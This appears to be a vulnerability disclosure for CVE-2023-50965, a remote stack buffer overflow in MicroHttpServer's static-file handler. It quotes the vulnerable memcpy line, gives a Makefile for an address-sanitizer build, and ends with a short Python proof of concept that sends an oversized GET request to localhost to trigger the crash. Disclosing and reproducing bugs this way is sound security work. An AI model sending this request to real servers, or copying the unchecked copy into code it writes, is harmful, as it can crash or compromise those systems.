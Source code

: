# CVE-2023-50965: Stack Buffer Overflow in _ReadStaticFiles at lib/middleware.c

After executing my fuzz tests, I discovered a remote stack buffer overflow in the C version of MicroHttpServer through commit 4398570 in the function uint8_t _ReadStaticFiles(HTTPReqMessage *req, HTTPResMessage *res) at lib/middleware.c, line 67:

```
memcpy(path + strlen(STATIC_FILE_FOLDER), uri, strlen(uri));
```


Any server or embedded application that utilizes MicroHttpServer is potentially at risk of remote code execution.  I've included reproduction steps in the following sections.

NOTE: For an in-depth walkthrough on this vulnerability, read [this article](https://skinnyrd.com/zero-day-research-cve-2023-50965-microhttpserver-remote-buffer-overflow/) on our offical site.

### Makefile Modifications

The following modifications were made to the Makefile to compile the server with address sanitizer and debug symbols.  The purpose of this is to track and verify the location of the stack buffer overflow:

```
PROJ=microhttpserver

CC=gcc
INCLUDES=-Ilib
DEFS=-D_PARSE_SIGNAL_ -D_PARSE_SIGNAL_INT_ -DDEBUG_MSG -DENABLE_STATIC_FILE=1
CFLAGS=-Os -Wall -fsanitize=address -g
SRCS=main.c app.c lib/server.c lib/middleware.c

all:
	$(CC) $(SRCS) $(INCLUDES) $(DEFS) $(CFLAGS) -o $(PROJ)

clean:
	rm -rf *.out *.bin *.exe *.o *.a *.so *.list *.img test build $(PROJ)
```

### Proof of Concept  Python3 Script

Save the following script to a file named poc.py:

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 8001))
sock.send(b"GET /"+b"%s"*5000+b" HTTP/1.1\r\nHost:localhost:8001\r\n\r\n")
response = sock.recv(4096)
sock.close()
```
